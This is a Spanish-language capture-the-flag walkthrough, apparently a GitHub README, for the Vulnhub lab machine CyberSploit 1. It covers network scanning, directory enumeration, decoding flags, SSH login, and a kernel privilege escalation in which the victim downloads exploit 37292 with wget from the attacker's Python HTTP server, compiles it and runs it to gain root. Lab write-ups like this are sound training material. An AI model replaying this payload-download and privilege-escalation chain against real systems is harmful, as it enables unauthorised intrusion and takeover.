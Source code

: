 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=480&height=80&lines=CYBERSPLOIT_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/cybersploit-1,506/


<h1 align="center"><img src="https://user-images.githubusercontent.com/75953873/174417901-a2431e6b-3849-46e3-a0e4-ed3f8ed73e85.png"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con NetDiscover. 
```
netdiscover -i wlan0 -r 192.168.1/24
```
![1](https://user-images.githubusercontent.com/75953873/174458235-8b46f051-22c5-4c9e-a193-a21d2b15f82a.png)

IP host: `192.168.1.5`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.5
```
![2](https://user-images.githubusercontent.com/75953873/174458274-1cbb9500-5deb-43d7-a58c-1fa3ba579cc9.png)

Puertos abiertos: [22,80]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 22,80 -A 192.168.1.5
```
![3](https://user-images.githubusercontent.com/75953873/174458453-68bb619f-8c2c-4657-a337-ae7bdbdb0fd3.png)

Servidor corriendo: **HTTP Apache**

![4](https://user-images.githubusercontent.com/75953873/174458587-9dc99104-e733-4167-a77e-5637aa484cde.png)

- *Paso 4:* Enumerar archivos web con Dirb.
```
dirb http://192.168.1.5 -w /usr/share/dirb/wordlists/common.txt
```
![5](https://user-images.githubusercontent.com/75953873/174458681-2f5b9ac3-cf49-4484-8fa4-ecba37570950.png)

Archivo: `robots.txt`

Mostrar contenido del archivo con Curl:
```
curl http://192.168.1.5/robots.txt
```
![6](https://user-images.githubusercontent.com/75953873/174458725-43cc2b76-f495-443a-ac4d-83aacd133f9a.png)

Mensaje ofuscado a base64: `R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9`

Decodificar mensaje con Bash:
```
echo 'R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9' | base64 --decode
```
![7](https://user-images.githubusercontent.com/75953873/174458797-e0ceea57-dcf1-4b3b-954c-b2dfaf1fd074.png)

- *Paso 5:* Conectarse al servidor SSH. 

**_CREDENCIALES SSH_**

Usuario: `itsskv`

Contraseña (**FLAG_1**): `cybersploit{youtube.com/c/cybersploit}`

```
ssh itsskv@192.168.1.5
```
![8](https://user-images.githubusercontent.com/75953873/174458910-2ecb3d1a-a76b-46b6-a51f-e14cc1e849b6.png)

Capturar la segunda flag:
```
cat /home/itsskv/flag2.txt
```
![9](https://user-images.githubusercontent.com/75953873/174458939-30736126-e294-4d22-85ae-f074f4b3f566.png)

Flag ofuscada a código binario: 

`Bash:`
```
01100111 01101111 01101111 01100100 00100000 01110111 01101111 01110010 01101011 00100000 00100001 00001010 01100110 01101100 01100001 01100111 00110010 00111010 00100000 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 01111011 01101000 01110100 01110100 01110000 01110011 00111010 01110100 00101110 01101101 01100101 00101111 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 00110001 01111101
```

Decodificar binario.

ONLINE: https://www.online-toolz.com/langs/es/tool-es-text-binary-convertor.html

![10](https://user-images.githubusercontent.com/75953873/174459040-d0e1d032-167b-464b-a9c4-d3aa8d57753d.png)

**FLAG_2**: cybersploit{https:t.me/cybersploit1}

- *Paso 6:* Escalar privilegios: buscar exploit con Searchsploit.

![12](https://user-images.githubusercontent.com/75953873/174459381-dc60d2c4-1bd2-426e-a9b5-2bb4dc27ab37.png)

Versión del kernel: `3.13.0-32`

```
searchsploit 3.13.0
```
![11](https://user-images.githubusercontent.com/75953873/174459391-4ab3d7ee-c30f-4ee0-9e95-76c82dac1e10.png)

Descargar exploit:
```
searchsploit -m 37292
```
![13](https://user-images.githubusercontent.com/75953873/174459424-5bc7b440-01e0-4331-8597-e7dcc4da51c1.png)

Abrir un servidor local en el puerto 80 con Python3:
```
python3 -m http.server 80
```
![14](https://user-images.githubusercontent.com/75953873/174459453-de8a70d0-36c7-4238-b8eb-bac90a4a891e.png)

Descargar exploit en el directorio `/tmp`; compilar y dar permisos de escritrura, lectura y ejecucción:
```
cd /tmp
wget http://192.168.1.9/37292.c
gcc 37292.c -o kernel
chmod 777 kernel
```
![15](https://user-images.githubusercontent.com/75953873/174459564-3b68a9b2-1d9f-4bcf-8689-a2f0afe3d4f5.png)

Por último, explotar el kernel `./kernel` y capturar la key (flag) del fichero `finalflag.txt` dentro del directorio `/root`:
```
./kernel
cd /root
cat finalflag.txt
```
![16](https://user-images.githubusercontent.com/75953873/174459618-e2feb3f3-dca2-4041-ba44-0272c063c7dd.png)

**FLAG_3**: cybersploit{Z3X21CW42C4 many many congratulations !}
